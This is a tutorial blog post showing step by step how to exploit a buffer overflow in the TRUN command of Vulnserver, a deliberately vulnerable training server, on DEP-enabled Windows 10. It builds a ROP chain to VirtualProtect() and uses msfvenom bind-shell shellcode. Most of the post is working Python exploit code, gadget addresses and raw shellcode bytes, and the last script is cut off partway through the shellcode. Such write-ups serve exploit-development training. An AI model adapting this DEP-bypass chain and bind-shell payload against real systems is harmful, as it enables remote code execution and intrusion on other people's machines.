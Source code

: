 :slug: vulnserver-trun-rop/
:date: 2020-08-27
:category: attacks
:subtitle: Exploiting Vulnserver with ROP
:tags: osee, training, exploit, vulnserver
:image: cover.png
:alt: Photo by Syed Ali on Unsplash
:description: This post will show how to create a complete, functional exploit creating a complex shellcode using ROP
:keywords: Bussiness, Information, Security, Protection, Hacking, Exploit, OSEE, Ethical Hacking, Pentesting
:author: Andres Roldan
:writer: aroldan
:name: Andres Roldan
:about1: Cybersecurity Specialist, OSCE, OSCP, CHFI
:about2: "We don't need the key, we'll break in" RATM
:source: https://unsplash.com/photos/74JeU2jfnfk

= TRUN: Exploiting with ROP

In the last blog posts, we've been link:../understanding-dep/[dealing with DEP]
(Data Execution Protection) and a way to
link:../bypassing-dep/[bypass it with ROP] (Return-Oriented Programming).
If you haven't read those articles, I strongly recommend it before diving
into this one.

In this article, we will use `ROP` to create a fully working exploit for
the `TRUN` command of link:../tags/vulnserver/[Vulnserver] on a
DEP-enabled Windows 10 OS.

== ROP chains

In the link:../bypassing-dep/[last article], we used `ROP` to put the value
`0xdeadbeef` on `EAX`. To do that, we used 2 gadgets (sequence of
instructions ending with `RETN`) that performed the needed operations.
What we used is something known as a *ROP chain*, because we chained together
pointers to gadgets on the stack. When one of the gadgets returns, will
give control to the next, until the end of the chain.

`ROP` chains leverage existing instructions on the executable environment
to perform arbitrary actions. In fact, it was demonstrated that `ROP` is
Turing-complete, which means that we can solve any computational problem
using it, which ranges from making `EAX = 0xdeadbeef` to creating a
reverse TCP connection shellcode and beyond.

However, Turing-completeness does not imply code efficiency, and creating
a working shellcode using `ROP` could be a very frustrating and tedious work.

Fortunately for us, we can reuse our old shellcodes. Yes, I mean it. But
on a DEP-enabled OS, that involves a little of extra effort!

== Marking shellcode as executable

When you use a CPU with the `NX` (No-execute) bit present, Windows provide
`DEP` as a mean to leverage it. `DEP` is enabled by the OS which means that
it can be disabled too.

That means that we can use `ROP` to disable `DEP` on certain memory region,
place our good old shellcode there and redirect execution to that memory space.

There are many ways to do that, from creating a new heap into the
process with execution permission to allocating new memory on the default
heap with execution bit enabled or modifying existing memory to mark it as
executable.

The most portable methods are the last two. The first (allocating new memory)
is performed using the `VirtualAllow()` function. The second uses
`VirtualProtect()`.

What you may use depend on several things, mainly the version of Windows you
are attacking. Also, if one of those functions is already loaded on the
executable environment of the vulnerable application, it would be a good
indicator.

Let's load `vulnserver.exe` on a debugger to see if we can find one of those
functions:

image::virtualprotect1.gif[VirtualProtect()]

We were lucky. `VirtualProtect()` was found in the `IAT` (Import Address
Table) of our executable. We will use that method.

== VirtualProtect() signature

According to Microsoft, the `VirtualProtect()` signature is the following:

[source,cpp]
----
BOOL VirtualProtect(
  LPVOID lpAddress,
  SIZE_T dwSize,
  DWORD  flNewProtect,
  PDWORD lpflOldProtect
);
----

The parameters are:

. `lpAddress` is the starting address on where we will store the shellcode.
. `dwSize` is the size of the memory region we'll mark as executable, starting
at `lpAddress`.
. `flNewProtect` is the mask of bits defining the permissions that the address
region would have (We'll use this to mark it as executable).
. `lpflOldProtect` is an address that will receive the current
permissions of the `lpAddress + dwSize` region.

Using `ROP` we need to put the values of that parameters on the stack.
We also need to setup the stack in a way that we can *return* into the
`VirtualProtect()` call and configure a return address that will be used
as the next `EIP` when `VirtualProtect()` returns. The following diagram
shows the expected stack layout just after executing our first `RETN`:

.Stack layout
[source,text]
----
Lower addresses
...
.-----------------.
|                 |
`-----------------'
        ESP
.-----------------.
|                 | <- Address to VirtualProtect()
`-----------------'
.-----------------.
|                 | <- Return address for VirtualProtect()
`-----------------'
.-----------------.
|                 | <- lpAddress
`-----------------'
.-----------------.
|                 | <- dwSize
`-----------------'
.-----------------.
|                 | <- flNewProtect
`-----------------'
.-----------------.
|                 | <- lpflOldProtect
`-----------------'
.-----------------.
|                 | <- Start of our shellcode
`-----------------'
...

Higher addresses
----

Let's see what would be the values to that parameters:

. Address to `VirtualProtect()`: This can be obtained using the debugger.
Ideally, we will use later the reference on the `IAT` to this function. For
now, we found that `VirtualProtect()` is at `0x76070420`:

image::virtualprotect1.png[VirtualProtect()]

. Return address for `VirtualProtect()`: This should be a pointer to a
`JMP ESP` or `CALL ESP` instruction. This will redirect the execution flow to
our shellcode when the `ROP` chain finishes, enabling the execution flag on
the stack. You can obtain multiple options for this value using
`!mona jmp -n -r esp`. I will pick `0x625011AF`

image::monajmp1.png[Mona JMP]

. `lpAddress`: This should be the start address on where we expect to
store our shellcode. In our case, this should be the value of `ESP` and the
value can only be obtained at runtime. We'll get to that later.
. `dwSize`: Is the size of the address region that will be marked
as executable, starting at `lpAddress`. Something like `512` bytes (`0x200`)
would be enough.
. `flNewProtect`: Flags to be setup on the memory region. We need to mark
it as executable, readable and writable (`PAGE_EXECUTE_READWRITE`) whose
value is `0x40`
. `lpflOldProtect`: A pointer to a memory region that will receive the current
permissions of `lpAddress`. That means that this value should point to a place
where we have write permissions. You can use the debugger to find the right
place. Ideally this should be an address to a module without `ASRL` or
`Rebase`. In this case I'll choose the one at `0x62504040`:

image::writable1.png[Writable]

== Verifying execution

Before ROP'ing that values, let's check if that call works. I will update
the exploit from the link:../bypassing-dep/[previous article] with the
call to `VirtualProtect()`.
The goal of that exploit was to make `EAX = 0xdeadbeef`.
I will use placeholder values where needed, and update them at debug time,
just to check how `VirtualProtect()` works:

[source,python]
----
#!/usr/bin/env python3
"""
Vulnserver TRUN exploit (ROP, DEP bypass).

Vulnerable Software: Vulnserver
Version: 1.00
Exploit Author: Andres Roldan
Tested On: Windows 10 20H2
Writeup: https://fluidattacks.com/web/blog/vulnserver-trun-rop/
"""

import socket
import struct

HOST = '192.168.0.20'
PORT = 9999


PAYLOAD = (
    b'TRUN .' +
    b'A' * 2006 +
    # 62501022  \.  C3                    RETN
    struct.pack('<L', 0x62501022) +
    # Pointer to `VirtualProtect()`: 0x6250609C -> 0x76070420
    struct.pack('<L', 0x76070420) +
    # Pointer to JMP ESP
    struct.pack('<L', 0x625011AF) +
    # lpAddress: Dynamic value. Will put a placeholder for now
    struct.pack('<L', 0x41414141) +
    # dwSize: 0x00000200. As we can't inject NULL bytes, we will place
    # 0x11111201 for now
    struct.pack('<L', 0x11111201) +
    # flNewProtect: 0x00000040: As we can't inject NULL bytes, we will place
    # 0x11111140 for now
    struct.pack('<L', 0x11111140) +
    # lpflOldProtect, Pointer to writable address: 0x62504040
    struct.pack('<L', 0x62504040) +
    # Shellcode. Will make EAX = 0xdeadbeef
    b'\x31\xc0' +                   # xor eax,eax
    b'\x05\xee\xbe\xad\xde' +       # add eax,0xdeadbeee
    b'\x40' +                       # inc eax. Now eax=0xdeadbeef
    b'C' * 990
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

I will now run the exploit in stages, to explain every step:

image::run1.gif[Stage 1]

Here, we can see that we effectively injected the parameters on the stack
and that our first `RETN` gave control to call `VirtualProtect()`.
However, there are some values that need to be changed. Let's do that:

image::run2.gif[Stage 2]

In this part, I modified the `lpAddress` value with the current value of `ESP`,
then modified `dwSize` making it `0x00000200` or 512 bytes, and
`flNewProtect` was set to `0x40` (`PAGE_EXECUTE_READWRITE`). Now, let the
exploit continues with the modified values:

image::run3.gif[Stage 3]

Wonderful! The `VirtualProtect()` call effectively marked the region
where our shellcode was placed as executable and we could make
`EAX = 0xdeadbeef`. We bypassed `DEP` again!

However, that was not a valid execution because we had to use the debugger
to change some values.

== ROP it all

We need to use `ROP` to setup that values. The easiest way is to put the
required values on general purpose registers and then push them to the
stack in the required order. To do that, we can harness the `PUSHAD`
instruction that will save all the general purpose registers on the stack
in the following order:

* `EAX`, `ECX`, `EDX`, `EBX`, `ESP`, `EBP`, `ESI`, `EDI`.

That means that when `PUSHAD` is executed, the stack will have this content:

.Stack layout
[source,text]
----
Lower addresses
...
   	        ESP
	.-----------------.
EDI	|                 |
	`-----------------'
	.-----------------.
ESI	|                 |
	`-----------------'
	.-----------------.
EBP	|                 |
	`-----------------'
	.-----------------.
ESP	|                 | <- This is the value of ESP *before* the call to PUSHAD
	`-----------------'
	.-----------------.
EBX	|                 |
	`-----------------'
	.-----------------.
EDX	|                 |
	`-----------------'
	.-----------------.
ECX	|                 |
	`-----------------'
	.-----------------.
EAX	|                 |
	`-----------------'
	.-----------------.
	|                 | <- Shellcode
	`-----------------'
...
Higher addresses
----

The most important value for us is the original `ESP` value because that
address is the one that must placed on the `lpAddress` parameter. Using
`lpAddress` as the starting point, we need to place the other parameters
to the adjacent registers, as well as the pointer to `VirtualProtect()`
and the return address:


.Stack layout
[source,text]
----
Lower addresses
...
   	        ESP
	.-----------------.
EDI	|                 |
	`-----------------'
	.-----------------.
ESI	|                 | <- Pointer to VirtualProtect()
	`-----------------'
	.-----------------.
EBP	|                 | <- Return address for VirtualProtect()
	`-----------------'
	.-----------------.
ESP	|                 | <- lpAddress
	`-----------------'
	.-----------------.
EBX	|                 | <- dwSize
	`-----------------'
	.-----------------.
EDX	|                 | <- flNewProtect
	`-----------------'
	.-----------------.
ECX	|                 | <- lpflOldProtect
	`-----------------'
	.-----------------.
EAX	|                 |
	`-----------------'
	.-----------------.
	|                 | <- Shellcode
	`-----------------'
...
Higher addresses
----

Great, all the parameters for `VirtualProtect()` fit on those registers.

But something happens here. You may notice that the `EDI` register is not
used, but when our first `RETN` is executed, it will land there. In that case,
we need to store on `EDI` a pointer to a `RETN` instruction again.
This will make the execution return to where `ESI` address is pointing,
which is the call to `VirtualProtect()`:

.Stack layout
[source,text]
----
Lower addresses
...
   	        ESP
	.-----------------.
EDI	|                 | <- Pointer to RETN instruction
	`-----------------'
	.-----------------.
ESI	|                 | <- Pointer to VirtualProtect()
	`-----------------'
	.-----------------.
EBP	|                 | <- Return address for VirtualProtect()
	`-----------------'
	.-----------------.
ESP	|                 | <- lpAddress
	`-----------------'
	.-----------------.
EBX	|                 | <- dwSize
	`-----------------'
	.-----------------.
EDX	|                 | <- flNewProtect
	`-----------------'
	.-----------------.
ECX	|                 | <- lpflOldProtect
	`-----------------'
	.-----------------.
EAX	|                 |
	`-----------------'
	.-----------------.
	|                 | <- Shellcode
	`-----------------'
...
Higher addresses
----

You will also note that `EAX` is also not set and this is the place where
the shellcode is supposed to start. To overcome that, we can fill `EAX` with
`NOP` instructions that will slide the execution to the shellcode:

.Stack layout
[source,text]
----
Lower addresses
...
   	        ESP
	.-----------------.
EDI	|                 | <- Pointer to RETN instruction
	`-----------------'
	.-----------------.
ESI	|                 | <- Pointer to VirtualProtect()
	`-----------------'
	.-----------------.
EBP	|                 | <- Return address for VirtualProtect()
	`-----------------'
	.-----------------.
ESP	|                 | <- lpAddress
	`-----------------'
	.-----------------.
EBX	|                 | <- dwSize
	`-----------------'
	.-----------------.
EDX	|                 | <- flNewProtect
	`-----------------'
	.-----------------.
ECX	|                 | <- lpflOldProtect
	`-----------------'
	.-----------------.
EAX	|                 | <- \x90\x90\x90\x90
	`-----------------'
	.-----------------.
	|                 | <- Shellcode
	`-----------------'
...
Higher addresses
----

Perfect. We need to use `ROP` gadgets to setup those registers first and
then add a pointer to a `PUSHAD # RETN` gadget at the end of the chain.
Fortunately for us, `mona` will do the hard work, by issuing the following
command:

[source,bash]
----
!mona rop -m *.dll -n
----

This will go through all executable modules finding `ROP` gadgets that can be
useful. At the end, `mona` will generate several files with the result.
The most important one in this stage is `rop_chains.txt` file that contains
the chain of gadgets needed to setup the registers with the values in
the required order.

This is the resulting ROP gadget chain in my system:

[source,python]
----
  def create_rop_chain():

    # rop chain generated with mona.py - www.corelan.be
    rop_gadgets = [
      #[---INFO:gadgets_to_set_esi:---]
      0x75c5b862,  # POP EAX # RETN [KERNELBASE.dll] ** REBASED ** ASLR
      0x6250609c,  # ptr to &VirtualProtect() [IAT essfunc.dll]
      0x7714ae82,  # MOV EAX,DWORD PTR DS:[EAX] # RETN [ntdll.dll] ** REBASED ** ASLR
      0x7712c3c6,  # XCHG EAX,ESI # RETN [ntdll.dll] ** REBASED ** ASLR
      #[---INFO:gadgets_to_set_ebp:---]
      0x7554bdee,  # POP EBP # RETN [msvcrt.dll] ** REBASED ** ASLR
      0x625011af,  # & jmp esp [essfunc.dll]
      #[---INFO:gadgets_to_set_ebx:---]
      0x625011b4,  # POP EAX # RETN [essfunc.dll]
      0xfffffdff,  # Value to negate, will become 0x00000201
      0x760987da,  # NEG EAX # RETN [KERNEL32.DLL] ** REBASED ** ASLR
      0x771cf5b9,  # XCHG EAX,EBX # RETN [ntdll.dll] ** REBASED ** ASLR
      #[---INFO:gadgets_to_set_edx:---]
      0x7714ebc3,  # POP EAX # RETN [ntdll.dll] ** REBASED ** ASLR
      0xffffffc0,  # Value to negate, will become 0x00000040
      0x76099c08,  # NEG EAX # RETN [KERNEL32.DLL] ** REBASED ** ASLR
      0x759cc549,  # XCHG EAX,EDX # RETN [WS2_32.DLL] ** REBASED ** ASLR
      #[---INFO:gadgets_to_set_ecx:---]
      0x75567ffd,  # POP ECX # RETN [msvcrt.dll] ** REBASED ** ASLR
      0x75a08cf7,  # &Writable location [WS2_32.DLL] ** REBASED ** ASLR
      #[---INFO:gadgets_to_set_edi:---]
      0x75cf4a3b,  # POP EDI # RETN [KERNELBASE.dll] ** REBASED ** ASLR
      0x76099c0a,  # RETN (ROP NOP) [KERNEL32.DLL] ** REBASED ** ASLR
      #[---INFO:gadgets_to_set_eax:---]
      0x755617cc,  # POP EAX # RETN [msvcrt.dll] ** REBASED ** ASLR
      0x90909090,  # nop
      #[---INFO:pushad:---]
      0x770f9589,  # PUSHAD # RETN [ntdll.dll] ** REBASED ** ASLR
    ]
    return ''.join(struct.pack('<I', _) for _ in rop_gadgets)

  rop_chain = create_rop_chain()
----

You can see that the registers are arranged exactly as we wanted.

We can incorporate that function in our exploit:

[source,python]
----
#!/usr/bin/env python3
"""
Vulnserver TRUN exploit (ROP, DEP bypass).

Vulnerable Software: Vulnserver
Version: 1.00
Exploit Author: Andres Roldan
Tested On: Windows 10 20H2
Writeup: https://fluidattacks.com/web/blog/vulnserver-trun-rop/
"""

import socket
import struct

HOST = '192.168.0.20'
PORT = 9999

def create_rop_chain():
    # rop chain generated with mona.py - www.corelan.be
    rop_gadgets = [
        #[---INFO:gadgets_to_set_esi:---]
        0x75c5b862,  # POP EAX # RETN [KERNELBASE.dll] ** REBASED ** ASLR
        0x6250609c,  # ptr to &VirtualProtect() [IAT essfunc.dll]
        0x7714ae82,  # MOV EAX,DWORD PTR DS:[EAX] # RETN [ntdll.dll] ** REBASED ** ASLR
        0x7712c3c6,  # XCHG EAX,ESI # RETN [ntdll.dll] ** REBASED ** ASLR
        #[---INFO:gadgets_to_set_ebp:---]
        0x7554bdee,  # POP EBP # RETN [msvcrt.dll] ** REBASED ** ASLR
        0x625011af,  # & jmp esp [essfunc.dll]
        #[---INFO:gadgets_to_set_ebx:---]
        0x625011b4,  # POP EAX # RETN [essfunc.dll]
        0xfffffdff,  # Value to negate, will become 0x00000201
        0x760987da,  # NEG EAX # RETN [KERNEL32.DLL] ** REBASED ** ASLR
        0x771cf5b9,  # XCHG EAX,EBX # RETN [ntdll.dll] ** REBASED ** ASLR
        #[---INFO:gadgets_to_set_edx:---]
        0x7714ebc3,  # POP EAX # RETN [ntdll.dll] ** REBASED ** ASLR
        0xffffffc0,  # Value to negate, will become 0x00000040
        0x76099c08,  # NEG EAX # RETN [KERNEL32.DLL] ** REBASED ** ASLR
        0x759cc549,  # XCHG EAX,EDX # RETN [WS2_32.DLL] ** REBASED ** ASLR
        #[---INFO:gadgets_to_set_ecx:---]
        0x75567ffd,  # POP ECX # RETN [msvcrt.dll] ** REBASED ** ASLR
        0x75a08cf7,  # &Writable location [WS2_32.DLL] ** REBASED ** ASLR
        #[---INFO:gadgets_to_set_edi:---]
        0x75cf4a3b,  # POP EDI # RETN [KERNELBASE.dll] ** REBASED ** ASLR
        0x76099c0a,  # RETN (ROP NOP) [KERNEL32.DLL] ** REBASED ** ASLR
        #[---INFO:gadgets_to_set_eax:---]
        0x755617cc,  # POP EAX # RETN [msvcrt.dll] ** REBASED ** ASLR
        0x90909090,  # nop
        #[---INFO:pushad:---]
        0x770f9589,  # PUSHAD # RETN [ntdll.dll] ** REBASED ** ASLR
    ]
    return b''.join(struct.pack('<I', _) for _ in rop_gadgets)

PAYLOAD = (
    b'TRUN .' +
    b'A' * 2006 +
    # 62501022  \.  C3                    RETN
    struct.pack('<L', 0x62501022) +
    create_rop_chain() +
    # Shellcode. Will make EAX = 0xdeadbeef
    b'\x31\xc0' +                   # xor eax,eax
    b'\x05\xee\xbe\xad\xde' +       # add eax,0xdeadbeee
    b'\x40' +                       # inc eax. Now eax=0xdeadbeef
    b'C' * 990
)

with socket.create_connection((HOST, PORT)) as fd:
    fd.sendall(PAYLOAD)
----

And check it:

image::run4.gif[ROP Chain]

Isn't it wonderful? We were able to setup the call to `VirtualProtect()` with
the required parameters using `ROP`.

Let's resume the execution to check if that worked:

image::run5.gif[ROP Chain]

Indeed! Again, we were able to make `EAX = 0xdeadbeef` using a traditional
shellcode. We can now replace that mock shellcode with one of our good ol'
ones from `msfvenom`:

[source,console]
----
$ msfvenom -p windows/shell_bind_tcp -f python -v SHELL -b '\x00'
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 11 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 355 (iteration=0)
x86/shikata_ga_nai chosen with final size 355
Payload size: 355 bytes
Final size of python file: 1823 bytes
SHELL =  b""
SHELL += b"\xda\xd3\xbe\xaa\x69\x45\x3a\xd9\x74\x24\xf4\x5a"
SHELL += b"\x2b\xc9\xb1\x53\x31\x72\x17\x03\x72\x17\x83\x68"
SHELL += b"\x6d\xa7\xcf\x90\x86\xa5\x30\x68\x57\xca\xb9\x8d"
SHELL += b"\x66\xca\xde\xc6\xd9\xfa\x95\x8a\xd5\x71\xfb\x3e"
SHELL += b"\x6d\xf7\xd4\x31\xc6\xb2\x02\x7c\xd7\xef\x77\x1f"
SHELL += b"\x5b\xf2\xab\xff\x62\x3d\xbe\xfe\xa3\x20\x33\x52"
SHELL += b"\x7b\x2e\xe6\x42\x08\x7a\x3b\xe9\x42\x6a\x3b\x0e"
SHELL += b"\x12\x8d\x6a\x81\x28\xd4\xac\x20\xfc\x6c\xe5\x3a"
SHELL += b"\xe1\x49\xbf\xb1\xd1\x26\x3e\x13\x28\xc6\xed\x5a"
SHELL += b"\x84\x35\xef\x9b\x23\xa6\x9a\xd5\x57\x5b\x9d\x22"
SHELL += b"\x25\x87\x28\xb0\x8d\x4c\x8a\x1c\x2f\x80\x4d\xd7"
SHELL += b"\x23\x6d\x19\xbf\x27\x70\xce\xb4\x5c\xf9\xf1\x1a"
SHELL += b"\xd5\xb9\xd5\xbe\xbd\x1a\x77\xe7\x1b\xcc\x88\xf7"
SHELL += b"\xc3\xb1\x2c\x7c\xe9\xa6\x5c\xdf\x66\x0a\x6d\xdf"
SHELL += b"\x76\x04\xe6\xac\x44\x8b\x5c\x3a\xe5\x44\x7b\xbd"
SHELL += b"\x0a\x7f\x3b\x51\xf5\x80\x3c\x78\x32\xd4\x6c\x12"
SHELL += b"\x93\x55\xe7\xe2\x1c\x80\x92\xea\xbb\x7b\x81\x17"
SHELL += b"\x7b\x2c\x05\xb7\x14\x26\x8a\xe8\x05\x49\x40\x81"
SHELL += b"\xae\xb4\x6b\xbc\x72\x30\x8d\xd4\x9a\x14\x05\x40"
SHELL += b"\x59\x43\x9e\xf7\xa2\xa1\xb6\x9f\xeb\xa3\x01\xa0"
SHELL += b"\xeb\xe1\x25\x36\x60\xe6\xf1\x27\x77\x23\x52\x30"
SHELL += b"\xe0\xb9\x33\x73\x90\xbe\x19\xe3\x31\x2c\xc6\xf3"
SHELL += b"\x3c\x4d\x51\xa4\x69\xa3\xa8\x20\x84\x9a\x02\x56"
SHELL += b"\x55\x7a\x6c\xd2\x82\xbf\x73\xdb\x47\xfb\x57\xcb"
SHELL += b"\x91\x04\xdc\xbf\x4d\x53\x8a\x69\x28\x0d\x7c\xc3"
SHELL += b"\xe2\xe2\xd6\x83\x73\xc9\xe8\xd5\x7b\x04\x9f\x39"
SHELL += b"\xcd\xf1\xe6\x46\xe2\x95\xee\x3f\x1e\x06\x10\xea"
SHELL += b"\x9a\x36\x5b\xb6\x8b\xde\x02\x23\x8e\x82\xb4\x9e"
SHELL += b"\xcd\xba\x36\x2a\xae\x38\x26\x5f\xab\x05\xe0\x8c"
SHELL += b"\xc1\x16\x85\xb2\x76\x16\x8c"
----

And update our exploit:

[source,python]
----
#!/usr/bin/env python3
"""
Vulnserver TRUN exploit (ROP, DEP bypass).

Vulnerable Software: Vulnserver
Version: 1.00
Exploit Author: Andres Roldan
Tested On: Windows 10 20H2
Writeup: https://fluidattacks.com/web/blog/vulnserver-trun-rop/
"""

import socket
import struct

HOST = '192.168.0.20'
PORT = 9999


def create_rop_chain():
    # rop chain generated with mona.py - www.corelan.be
    rop_gadgets = [
        #[---INFO:gadgets_to_set_esi:---]
        0x75c5b862,  # POP EAX # RETN [KERNELBASE.dll] ** REBASED ** ASLR
        0x6250609c,  # ptr to &VirtualProtect() [IAT essfunc.dll]
        0x7714ae82,  # MOV EAX,DWORD PTR DS:[EAX] # RETN [ntdll.dll] ** REBASED ** ASLR
        0x7712c3c6,  # XCHG EAX,ESI # RETN [ntdll.dll] ** REBASED ** ASLR
        #[---INFO:gadgets_to_set_ebp:---]
        0x7554bdee,  # POP EBP # RETN [msvcrt.dll] ** REBASED ** ASLR
        0x625011af,  # & jmp esp [essfunc.dll]
        #[---INFO:gadgets_to_set_ebx:---]
        0x625011b4,  # POP EAX # RETN [essfunc.dll]
        0xfffffdff,  # Value to negate, will become 0x00000201
        0x760987da,  # NEG EAX # RETN [KERNEL32.DLL] ** REBASED ** ASLR
        0x771cf5b9,  # XCHG EAX,EBX # RETN [ntdll.dll] ** REBASED ** ASLR
        #[---INFO:gadgets_to_set_edx:---]
        0x7714ebc3,  # POP EAX # RETN [ntdll.dll] ** REBASED ** ASLR
        0xffffffc0,  # Value to negate, will become 0x00000040
        0x76099c08,  # NEG EAX # RETN [KERNEL32.DLL] ** REBASED ** ASLR
        0x759cc549,  # XCHG EAX,EDX # RETN [WS2_32.DLL] ** REBASED ** ASLR
        #[---INFO:gadgets_to_set_ecx:---]
        0x75567ffd,  # POP ECX # RETN [msvcrt.dll] ** REBASED ** ASLR
        0x75a08cf7,  # &Writable location [WS2_32.DLL] ** REBASED ** ASLR
        #[---INFO:gadgets_to_set_edi:---]
        0x75cf4a3b,  # POP EDI # RETN [KERNELBASE.dll] ** REBASED ** ASLR
        0x76099c0a,  # RETN (ROP NOP) [KERNEL32.DLL] ** REBASED ** ASLR
        #[---INFO:gadgets_to_set_eax:---]
        0x755617cc,  # POP EAX # RETN [msvcrt.dll] ** REBASED ** ASLR
        0x90909090,  # nop
        #[---INFO:pushad:---]
        0x770f9589,  # PUSHAD # RETN [ntdll.dll] ** REBASED ** ASLR
    ]
    return b''.join(struct.pack('<I', _) for _ in rop_gadgets)


# msfvenom -p windows/shell_bind_tcp -f python -v SHELL -b '\x00'
SHELL =  b""
SHELL += b"\xbe\x9a\xd8\xa3\xeb\xd9\xc6\xd9\x74\x24\xf4\x5d"
SHELL += b"\x2b\xc9\xb1\x53\x31\x75\x12\x83\xc5\x04\x03\xef"
SHELL += b"\xd6\x41\x1e\xf3\x0f\x07\xe1\x0b\xd0\x68\x6b\xee"
SHELL += b"\xe1\xa8\x0f\x7b\x51\x19\x5b\x29\x5e\xd2\x09\xd9"
SHELL += b"\xd5\x96\x85\xee\x5e\x1c\xf0\xc1\x5f\x0d\xc0\x40"
SHELL += b"\xdc\x4c\x15\xa2\xdd\x9e\x68\xa3\x1a\xc2\x81\xf1"
SHELL += b"\xf3\x88\x34\xe5\x70\xc4\x84\x8e\xcb\xc8\x8c\x73"
SHELL += b"\x9b\xeb\xbd\x22\x97\xb5\x1d\xc5\x74\xce\x17\xdd"
SHELL += b"\x99\xeb\xee\x56\x69\x87\xf0\xbe\xa3\x68\x5e\xff"
SHELL += b"\x0b\x9b\x9e\x38\xab\x44\xd5\x30\xcf\xf9\xee\x87"
SHELL += b"\xad\x25\x7a\x13\x15\xad\xdc\xff\xa7\x62\xba\x74"
SHELL += b"\xab\xcf\xc8\xd2\xa8\xce\x1d\x69\xd4\x5b\xa0\xbd"
SHELL += b"\x5c\x1f\x87\x19\x04\xfb\xa6\x38\xe0\xaa\xd7\x5a"
SHELL += b"\x4b\x12\x72\x11\x66\x47\x0f\x78\xef\xa4\x22\x82"
SHELL += b"\xef\xa2\x35\xf1\xdd\x6d\xee\x9d\x6d\xe5\x28\x5a"
